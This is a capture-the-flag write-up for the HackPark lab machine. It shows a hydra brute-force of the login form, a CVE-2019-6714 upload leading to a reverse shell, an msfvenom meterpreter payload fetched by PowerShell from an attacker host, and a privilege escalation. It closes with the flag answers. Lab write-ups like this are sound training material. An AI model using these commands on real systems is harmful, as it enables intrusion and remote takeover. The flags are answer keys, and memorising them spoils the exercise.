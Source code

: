 # HACK PARK

## BASIC INFO
```
export IP=10.10.55.244

80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-03T06:22:06+00:00; -39s from scanner time.
```

## USING HYDRA TO BRUTE-FORCE A LOGIN

> - **What request type is the Windows website login form using?**
>> POST

In order to run hydra we need to supply the argument in urlencoded format. Refer to [this](urlencode.py) script for how to encode with urllib.

Running the following command will gives us the password.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/Account/login.aspx:ctl00%24MainContent%24LoginUser%24UserName=admin&__EVENTVALIDATION=%2FR%2BmdTL%2FGWcCAUXLZ%2FHn36sbZ2AnlRTa1fQjpaUiDVremHkUfE%2F2wYoO%2B1H9E0WKYBtgbkGAfxjZX9etzDTsNtNchnNX5aRyrYyhc9kwC9IrsM%2FZmOl5mQtb5UfhN36p7hpfAhJ5vR1ehq8TJreppnTAJqCO9Dhk7yfxQz7gDuzBqlcj&__VIEWSTATE=9o3SmBZrJRQzfy7kkCOyg1NKfTXN9SunW5hHb0JM5r%2Fubhb%2FsUbr8XKtIkHyfD1mLN474Sg%2BpPuXWdMiqPAaX5eeuWiEmcjo%2FoRLYfMAEBQY7TmjTLJWpDM8pjhAtbQj0uT%2FeK%2BfW5Q5bWMVHOQJG1VsLSZk4UlrOHv0rfoxOl6M2svR&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=LoginButton:Login failed"

```

> Password = 1qaz2wsx

## COMPROMISE THE MACHINE

> - **Now you have logged into the website, are you able to identify the version of the BlogEngine?**
>> 3.3.6.0

It is under About page.

> - **Use the exploit database archive to find an exploit to gain a reverse shell on this system.**
>> CVE-2019-6714

> - **Using the public exploit, gain initial access to the server.\
Who is the webserver running as?**
>> iis apppool\blog

Referring to the explanation in [this](PostView.ascx) script.\
First we host a web server with `python3 -m http.server`\
Then on the web page we navigate to post, edit post, upload files and upload [PostView.ascx](PostView.ascx).\
We need to set up a listener on our host machine as well with the command `nc -lnvp 9001`\
After that, we navigate to the URL `http://$IP/?theme=../../App_Data/files` and we should get a reverse shell on our host machine.

## WINDOWS PRIVILEGE ESCALAITON

> - **Generate a payload with msfvenom**
>> No answer needed

To generate a payload use the command below
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.8.177 LPORT=9002 -f exe -o shell.exe
```

Then we upload it to the remote machine.\
On the remote machine.
```
cd %TEMP%
powershell -c "Invoke-WebRequest http://10.8.8.177/shell.exe -OutFile shell.exe"
``` 
*Tip: It's common to find C:\Windows\Temp is world writable!*


Then we set up a listener on our host machine with msfconsole.
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9002
run
```

Back on the remote machine, we execute the following command to run shell.exe.
```
powershell -c "Start-Process shell.exe"
```

Then we should get a meterpreter on msfconsole now.

> - **What is the OS version of this windows machine?**
>> Windows 2012 R2 (6.3 Build 9600)

> - **What is the name of the abnormal service running?**
>> Answer not found yet...

> - **What is the name of the binary you're supposed to exploit?**
>> Message.exe

> - **Using this abnormal service, escalate your privileges!\
What is the user flag (on Jeffs Desktop)?**
>> 759bd8af507517bcfaede78a21a73e39

> - **What is the root flag?**
>> 7e13d97f05f7ceb9881a3eb3d78d3e72